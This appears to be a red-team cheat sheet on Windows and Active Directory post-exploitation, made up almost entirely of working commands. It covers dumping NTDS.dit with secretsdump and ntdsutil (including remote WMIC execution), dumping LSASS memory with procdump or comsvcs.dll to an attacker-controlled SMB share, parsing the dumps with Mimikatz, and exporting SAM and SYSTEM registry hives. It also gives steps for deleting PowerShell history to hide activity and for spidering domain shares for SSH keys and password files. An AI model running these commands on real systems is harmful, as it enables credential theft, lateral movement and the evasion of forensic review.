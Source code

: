 ## Tools
* [LaZagne](https://github.com/AlessandroZ/LaZagne)
    ```batch
    laZagne.exe all
    ```

---
## Dumping Credentials[^1]

### NTDS dumping

#### Impacket-secretsdump directly
```
secretsdump.py company.local/administrator:P\@ssw0rd@192.168.1.100 -outputfile secretsdump.txt -resumefile resumefile -pwd-last-set -user-status -history
```

#### ntdsutil[^2][^3]
```
ntdsutil "activate instance ntds" "ifm" "create full C:\Windows\temp\ntdsutil" quit quit
# Via WMIC from a remote machine to DC
wmic /node:dc01.domain.com process call create "cmd.exe /c ntdsutil \"ac in ntds\" ifm \"cr fu C:\Windows\temp\ntdsutil\" q q"

# Then copy to kali and use secretsdump
secretsdump.py -ntds Active\ Directory/ntds.dit -system registry/SYSTEM -security registry/SECURITY LOCAL -pwd-last-set -user-status -history -outputfile output
```


### Procdump & Mimikatz

Useful if AV cannot be disabled and does not block procdump.exe

1. On target machine
    * Via procdump.exe
        ```batch
        procdump.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
        procdump64.exe -accepteula -ma lsass.exe c:\windows\temp\lsass.dmp 2>&1
        ```
    * Via Task manager
        * Open `Task Manager` -> Details -> lsass.exe -> ++right-button++ -> "Create dump file"
    * Remote LSASS dump[^4]
        * Run below on the target/victim machine
            ```batch
            net use x: \\smbserver_under_your_control\c$\
            powershell -c rundll32.exe C:\windows\System32\comsvcs.dll MiniDump (Get-Process lsass).id x:\lsassdump.bin full
            ```
    
1. Retrieve file

1. On local machine (Windows)
    ```batch
    mimikatz.exe log "sekurlsa::minidump lsass.dmp" sekurlsa::logonPasswords exit
    ```

### Exporting registry hives & local decryption
1. On the target machine
    ```batch
    mkdir c:\temp
    reg.exe save hklm\sam c:\temp\sam.save
    reg.exe save hklm\security c:\temp\security.save
    reg.exe save hklm\system c:\temp\system.save
    ```

1. Retrieve the files
    * See [Data Exfiltration](../../#data-exfiltration)

1. On local machine (~Kali)
    ```bash
    secretsdump.py -sam sam.save -security security.save -system system.save LOCAL
    ```
    
1. On target machine
    ```batch
    del c:\temp\sam.save
    del c:\temp\security.save
    del c:\temp\system.save
    rmdir c:\temp # Except when the "temp" folder already existed before Step 1. # Check if there are other contents in the folder
    ```
---
## Delete Powershell history
* Delete the "file" given by this command:
    ```powershell
    (Get-PSReadlineOption).HistorySavePath
    ```
* Or just replace the <username> below
    ```powershell
    del C:\Users\<username>\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadline\ConsoleHost_history.txt
    ```
---
## Looking for files in the Domain
* Useful when escalating from a domain compromise to a full network or infrastructure compromise by looking for sensitive files such as:
    * ssh keys
    * password files
    * password manager DBs
* spider = "*" to spider all shares per host
* long list of `--exclude-dirs` to avoid scanning in the ADMIN$ or Windows folder and concentrate on other folders.
* Edit the `--pattern` for more filename patterns
    
```bash
crackmapexec smb -d acme.corp -u administrator -p "P@ssw0rd" --spider "*" --exclude-dirs "addins,ADFS,appcompat,apppatch,AppReadiness,assembly,bcastdvr,Boot,Branding,CbsTemp,Cluster,Containers,CSC,Cursors,debug,diagnostics,DiagTrack,DigitalLocker,dot3svc,Downloaded Program Files,drivers,en-US,Fonts,GameBarPresenceWriter,Globalization,Help,IdentityCRL,IME,ImmersiveControlPanel,INF,InputMethod,Installer,L2Schemas,LiveKernelReports,Logs,Media,Microsoft.NET,Migration,Minidump,ModemLogs,OCR,Offline Web Pages,Panther,Performance,PLA,PolicyDefinitions,Prefetch,PrintDialog,Program Files,Program Files (x86),Provisioning,Registration,RemotePackages,rescache,Resources,SchCache,schemas,security,ServiceProfiles,ServiceState,servicing,Setup,ShellComponents,ShellExperiences,SKB,SoftwareDistribution,Speech,Speech_OneCore,System,System32,SystemApps,SystemResources,SysWOW64,TAPI,Tasks,Temp,tracing,twain_32,Vss,WaaS,Web,Windows,WinSxS,wlansvc" --pattern passw ssh username id_rsa id_ed25519 .pub  --only-files ~/Scope/all.txt 1>>1.txt
```

[^1]: [Pure Security](https://pure.security/dumping-windows-credentials/)
[^2]: [c0d3xpl0it](https://www.c0d3xpl0it.com/2016/10/dumping-ntdsdit-file-from-active-directory.html)
[^3]: [Hacking Articles](https://www.hackingarticles.in/credential-dumping-ntds-dit/)
[^4]: [Responder](https://twitter.com/PythonResponder/status/1385064506049630211)
